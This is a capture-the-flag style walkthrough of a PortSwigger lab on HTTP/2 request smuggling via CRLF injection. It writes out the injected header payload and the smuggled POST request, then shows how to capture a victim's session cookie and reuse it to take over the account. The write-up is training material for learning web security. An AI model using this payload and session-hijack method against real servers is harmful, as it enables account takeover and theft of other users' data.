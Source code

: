 # HTTP/2 request smuggling via CRLF injection

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

## To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

## If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to [the documentation](https://portswigger.net/burp/documentation/desktop/http2) for details on how to use them.

### The term `CRLF` refers to  `Carriage Return (ASCII 13, \r ) Line Feed (ASCII 10, \n )`

---

step 1

![screenshot](images/images_lab13/lab13_search_result_store.jpg)

step 2
![screenshot](images/images_lab13/lab13_observe_serach_result_from_history.jpg)

remove unnecessary header

![screenshot](images/images_lab13/lab13_remove_some_header.jpg)

step 3

![screenshot](images/images_lab13/lab13_send_search_result_test3.jpg)

step 4
add payload
name:
`foo`
value:
`bar\r\n`
`Transfer-Encoding: chunked`

![screenshot](images/images_lab13/lab13_add_payload.jpg)

step 5
add

```
0

search=test3

```

![screenshot](images/images_lab13/lab13_test_first_payload_not_found.jpg)

step 6

```
0

POST / HTTP/1.1
Host: 0a1000d2039488e3804bb75b00d800d4.web-security-academy.net
Cookie: session=MymYcTyskuyePyiQBQ83dlZEi5CNcxN8;
Content-Length: 13

search=test3
```

![screenshot](images/images_lab13/lab13_test_test_another_payload.jpg)

step 7
unmarked content-Length

![screenshot](images/images_lab13/lab13_unmark_content_length_test3.jpg)

step 8
increase content-Length

![screenshot](images/images_lab13/lab13_increase_content_length.jpg)

refresh home page you will get Post search result

![screenshot](images/images_lab13/lab13_refresh_homepage_containg_search_result.jpg)

step 9

wait for 10 second
increase content-Length
and search must be unique in each case

![screenshot](images/images_lab13/lab13_increase_content_length_to_850.jpg)

```
accept-language: en-US,en;q=0.9
cookie: victim-fingerprint=YmIWC1ZZCR96uu0kQRzpkzYfjZqqIOiZ; secret=D9HZfnx9Uirg30BtJgIyBUSnPULD2WWT; session=SG5N4hqr7GwwPgUFDm1qICzHKT8v6efM;
```

---

step 10
intercept login page with wrong userid and password

![screenshot](images/images_lab13/lab13_intercept_login_page.jpg)

step 7

replace session id with victim session id

![screenshot](images/images_lab13/lab13_change_session_id.jpg)

![screenshot](images/images_lab13/lab13_lab_solved.jpg)
